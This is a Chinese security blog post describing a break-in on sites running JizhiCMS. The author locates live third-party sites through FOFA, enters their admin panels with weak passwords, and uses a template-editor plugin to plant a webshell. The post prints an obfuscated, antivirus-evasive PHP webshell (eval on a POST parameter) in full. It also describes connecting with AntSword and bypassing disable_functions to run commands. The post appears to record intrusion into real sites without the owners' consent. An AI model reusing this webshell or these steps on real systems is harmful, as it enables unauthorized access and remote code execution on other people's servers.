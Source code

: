 

# 记某 CMS 漏洞 getshell - 先知社区

记某 CMS 漏洞 getshell

- - -

# 记极致 CMS 漏洞 getshell

> 今天下午比较空闲，就去搜索一些 cms，突然对极致 CMS 感兴趣，而网上已经有一些文章对它进行分析利用，sql 注入，xss，后台修改上传后缀名前台 getshell 等等。  
> 于是就引起了我的兴趣想去测试一下。

## 信息收集

还是因为自己太懒，不想搭建环境，然后就想网上有好多网站啊，随便找一个去看看。hhh 然后去利用`fofa`去搜索。（不能随便乱日）

## 弱密码 yyds

搜索了一些网站，我们直接在 url 后面添加`/admin.php`,就直接跳到后台登录的地方。

[![](assets/1698897532-98127d27addbd87a3a51b5d7fe3518e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000203-4656ee22-8cba-1.png)

看到后台？！嗯~，测试了 sql 无果，想一想万一有弱密码呢？试一试也没有啥。

然后就测试了弱密码，你懂的。

然后成功登录~ 仿佛就看到了`shell`就在我面前了。

[![](assets/1698897532-4aff6d7d1dfeddf9c0d9db0339f5a28f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000210-4a60369a-8cba-1.png)

因为之前有师傅发过前台上传文件 getshell 了，那我这里就不进行测试了。直接寻找另一个方法 getshell。

和平常的框架一样，登录后台之后就需要去测试功能点，然后我们就一个一个的去测试吧~（这里大概过了有 40 分钟 2333~）

唯一我感觉利用点就存在系统设置中的高级设置，我们可以选择上传的后缀名，不过这里是前台的上传啊，后台虽然有上传点但是一直绕过不了。难受死了，心里又不甘心在前台上传 getshell，在岂不是很没有面子（傲娇）

[![](assets/1698897532-e827b0372adb93dfce28f2575265b830.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000216-4df7f84c-8cba-1.png)

这里一直后台没有绕过~~~ 2333~

[![](assets/1698897532-13285b62147644c7c560c10f51250add.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000223-520a45fc-8cba-1.png)

## 柳暗花明又一村

想一想，如果要利用后台，那肯定是一些功能的问题，那我们就去认真找一下网站功能，找来找去就发现一个上传点，有点难受了。过了好久，突然想起了后台有一个`扩展管理`啊，应该说肯定可以下载一下插件来更加功能的吧。

[![](assets/1698897532-a8f50581451f9f2196fc329d09b68772.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000231-56b428de-8cba-1.png)

然后就凭着感觉和功能去看看那些插件可以利于。发现了一个在线编辑模板的插件

[![](assets/1698897532-924fb2273e2dc8d9f1e2a2b1286070b3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000237-5a8a187e-8cba-1.png)

这里可能是 ctfer 的自觉吧~因为之前打过的 ctf 题基本上是可以利于编辑插件进行修改代码，就可以 getshell。话不多说就开始尝试。先下载了该模块并进行安装。

安装前我们还是看看安装说明。万一错误了怎么办！

[![](assets/1698897532-4513f41e1f185f05f14d66ebd1639366.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000248-610d8460-8cba-1.png)

意思就是我们安装的时候还需要设置密码，并且该目录权限比较高，`777`就让我看到了`shell`的希望

然后就设置密码登录密码。

[![](assets/1698897532-5162f39483148f584e774f27dda118e1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000258-66c0f8f6-8cba-1.png)

成功登录之后就看到了这个页面我当时直接嗨了起了（np！！！）

[![](assets/1698897532-fa0760c5ab669bd3fe460261dfe2a5cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000304-6a545b02-8cba-1.png)

进入这个页面，那岂不是可以修改代码了，嘿嘿嘿~ 那不是 shell 唾手可得！

## 写 shell 连蚁剑

测试了该插件的功能，发现只能修改代码还不能写文件，嗯~。那也简单啊，我们先在已存在的 php 页面上写入一句话，然后蚁剑连接，创建文件写 shell，之后在删除之前修改的代码。

这里分享一个`免杀的小马`

```plain
<?php
$a = $GLOBALS;
$str = '_POST';
eval/**nice**/(''. $a[$str]['cf87efe0c36a12aec113cd7982043573']. NULL);
?>
```

这里写入我们的一句话木马

[![](assets/1698897532-b93abb715578ebd5c2d73d17ec738121.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000312-6f194bb6-8cba-1.png)

然后就是蚁剑去连接啦。看到蚁剑存在了一个绿色东西，长叹一口气~（不过如此）

[![](assets/1698897532-5eb404064dedbcda1262e24f60854d34.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000317-72416d6e-8cba-1.png)

连接成功居然不能执行？？？

[![](assets/1698897532-37fc11e3b9c71015c284a9342f82be1d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000327-783fe60a-8cba-1.png)

心里又难受了一下~~~  
然后去看看到底过滤了那些函数。并且 php 版本是 5.6

[![](assets/1698897532-2eca9fa5c6752af61f4ec07f17566524.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000344-8229f250-8cba-1.png)

[![](assets/1698897532-74c7ab820099667c20b954f4428d20af.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000350-85d8ff36-8cba-1.png)

## 绕 disable\_functions(没成功)

然后直接上蚁剑的插件，然后发现是 5.6 并且是 windows 呜呜呜 不会 直接告辞~

[![](assets/1698897532-4d72d4364709d9ea9a68778c119f53ec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000357-8a0bdb5a-8cba-1.png)

虽然没有成功执行命令，但也是一个 getshell 的思路。

啊~烦~。但是渗透人怎么能认输~

**俗话说得好，拿不下就换一个**（需要表哥们可以给一些意见学习一下~）

## 进行收集信息

进行重复上面的操作又获得一个网站。并且还是通过弱口令获得~

**弱口令 yyds**

## getshell 执行命令

这里的步骤和前面一样，因为有前面的步骤，而这个 shell 就简单多了。

也成功获得蚁剑连接。

[![](assets/1698897532-7cf12e8c9afde79f0c3e6061131aa4b1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000405-8ed76c12-8cba-1.png)

并且还是不能执行命令，但是看到了 linux 系统就想，肯定比 windows 好多了啊。

[![](assets/1698897532-37252a657b78e628511f45104e3a0d4f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000410-91b3f928-8cba-1.png)

于是就开始绕 disable\_functions，系统信息是这样的，那直接蚁剑一把梭。

[![](assets/1698897532-d7f89c09bb95532cf5da8a553d101e1c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000415-94b2fe12-8cba-1.png)

成功绕过，这不就成功了!!!

[![](assets/1698897532-95ba94204243d1d2f16c63d3cad58d4e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325000421-985085d0-8cba-1.png)

爽歪歪~

## 总结

-   极致 CMS 还是存在很多漏洞的。这里小弟只是抛砖引玉而已。
-   而写到这里的时候已经是晚上了，提权的话还是后面文章在说吧。
-   简单的说一下就是该漏洞是主要存在于 cms 后台插件的位置，允许用户修改代码，而这没有过滤就造成了巨大的风险。
